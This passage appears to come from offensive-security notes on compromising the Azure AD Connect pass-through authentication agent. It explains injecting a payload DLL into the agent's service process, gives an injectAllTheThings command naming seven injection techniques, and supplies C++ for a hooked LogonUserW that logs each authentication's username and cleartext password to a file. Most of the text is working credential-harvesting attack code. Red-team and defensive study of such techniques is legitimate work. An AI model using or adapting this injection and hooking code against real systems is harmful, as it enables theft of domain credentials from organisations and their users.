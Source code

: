The `injectAllTheThings` project can be used to inject the payload `DLL` in the
process using a number of techniques. One technique consist of copying the
payload `DLL` path into the remote process, using `VirtualAllocEx` and a
subsequent `WriteProcessMemory` call, and then remotely starting a thread that
will load the payload `DLL`. A remote thread can be created using
`CreateRemoteThread` and instructed to execute (`Kernel32`'s) `LoadLibraryW`.

```
# Supported injection techniques: 1 CreateRemoteThread / 2 NtCreateThreadEx / 3 QueueUserAPC / 4 SetWindowsHookEx / 5 RtlCreateUserThread / 6 SetThreadContext / 7 Reflective DLL injection

injectAllTheThings.exe -t <1 | INJECTION_TECHNIQUE_NUMBER> "AzureADConnectAuthenticationAgentService.exe" <PAYLOAD_DLL_FULL_PATH>
```

###### Authentication requests interception

The following code can be inserted in the `LogonUserWHook` function
(`<INJECTED_CODE_INTERCEPTION>`) to log the authentication requests.

```cpp
std::ofstream outfile;
outfile.open("<FILE_PATH>", std::ios_base::app);
outfile << "Successfully hooked LogonUserW function!" << "\n\n";

if (ret == true) {
    outfile << "Successful authentication received:" << "\n";
}

else {
    outfile << "Unsuccessful authentication received:" << "\n";
}

// Write username.
int len_username = WideCharToMultiByte(CP_UTF8, 0, username, -1, NULL, 0, 0, 0);
LPSTR result_username = NULL;
if (len_username > 0) {
    result_username = new char[len_username + 1];
    if (result_username) {
        int resLen_username = WideCharToMultiByte(CP_UTF8, 0, username, -1, &result_username[0], len_username, 0, 0);
        if (resLen_username == len_username) {
            outfile.write(result_username, len_username);
            outfile << "\n";
        }
        delete[] result_username;
    }
}

// Write password
int len_password = WideCharToMultiByte(CP_UTF8, 0, password, -1, NULL, 0, 0, 0);
LPSTR result_password = NULL;
if (len_password > 0) {
    result_password = new char[len_password + 1];
    if (result_password) {
        int resLen_password = WideCharToMultiByte(CP_UTF8, 0, password, -1, &result_password[0], len_password, 0, 0);
        if (resLen_password == len_password) {
            outfile.write(result_password, len_password);
            outfile << "\n";
        }
        delete[] result_password;
    }
}

outfile.close();
```